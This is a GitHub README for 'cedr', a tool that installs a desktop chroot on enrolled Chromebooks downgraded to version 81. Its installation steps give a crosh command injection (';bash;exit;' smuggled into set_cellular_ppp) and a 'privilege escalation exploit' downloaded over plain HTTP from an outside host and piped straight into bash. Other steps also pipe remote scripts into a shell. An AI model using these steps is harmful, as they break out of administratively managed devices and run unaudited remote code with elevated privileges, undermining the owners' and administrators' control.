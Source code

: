 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want:
```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
```
5. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following:
```bash
cd /home/chronos/usbdrv
./cedr-activate.sh
```
6. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the super-duper-ultra-easy command found below:

```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

Once again, replace /dev/sdX with your USB drive/SD card.

Once you're done, just do the same thing as before to unmount your drive:

```bash
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

## Other utilities

### `cedr-version`

Once you're inside of a chroot session, you can open a terminal and run `/bin/cedr-version` to see the version of cedr that was used to install the chroot.
